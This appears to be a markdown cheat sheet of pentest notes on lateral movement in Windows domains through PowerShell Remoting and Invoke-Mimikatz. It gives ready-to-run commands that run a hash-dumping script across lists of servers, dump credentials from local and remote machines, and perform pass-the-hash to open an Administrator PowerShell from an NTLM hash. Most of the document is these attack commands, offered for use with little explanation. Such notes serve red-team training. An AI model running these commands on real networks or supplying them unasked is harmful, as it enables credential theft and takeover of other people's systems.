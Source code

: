 # Lateral Movement - Powershell Remoting

## PSSession

- Interactive
- Runs in a new process (wsmprovhost)
- Is stateful (session is tracked)

## Useful cmdlets

```
New-PSSession -ComputerName computername.domainanme
Enter-PSSession -ComputerName computername.domainanme
```

We can use `-Credential` to pass username/password

### To execute commands or scriptblocks

```
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

Invoke-Command -Scriptblock {whoami;hostname} -ComputerName computername.domainname


```

### To execute scripts from files

```
Invoke-Command -FilePath C:\path\to\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_server>)
```

### Execute `Stateful` commands 

```
$Sess = New-PSSession -ComputerName computername

Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}

```

## Mimikatz Powershell
Powershell script for mimikatz is used for dumping credentials ,tickets without dropping mimikatz exe  to disk . It is used for passing , replaying hashes. Hashes can only be dumped with administrative privilieges 

### Dump credentials on local machine

```
Invoke-Mimikatz -DumpCreds
```

### Dump credentials on multiple remote machines 

```
Invoke-Mimikatz -DumpCreds -ComputerName @("computer1","computer2")
```

### Generate tokens from hashes

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:computername.domain.name /ntlm:ntlmhash /run:powershell.exe"'
```

